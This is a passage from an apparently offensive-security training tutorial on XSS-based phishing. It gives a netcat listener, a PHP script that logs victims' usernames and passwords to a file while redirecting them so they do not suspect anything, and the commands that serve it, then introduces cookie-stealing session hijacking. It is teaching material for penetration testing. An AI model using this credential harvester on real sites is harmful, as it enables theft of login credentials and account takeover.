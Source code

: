 We can start a simple `netcat` server:
```
nc -lnvp 80
```
Now attempt to login with credentials and check the `netcat` output we get.
- `don't forget to replace OUR_IP in the XSS payload with your actual IP`

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, the victim would get an `Unable to connect` error, which may raise some suspicions.

We can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections.
- In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` 
- (`don't forget to replace SERVER_IP with the domain name of the site`):
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi in
dex.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```

Upon logging in, we see that we get redirected to the original Image Viewer page.

If we check the `creds.txt` file, we see that we did get the login credentials.
# Session Hijacking
Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. If a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a `Session Hijacking` (aka `Cookie Stealing`) attack.
## Blind XSS Detection
A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.
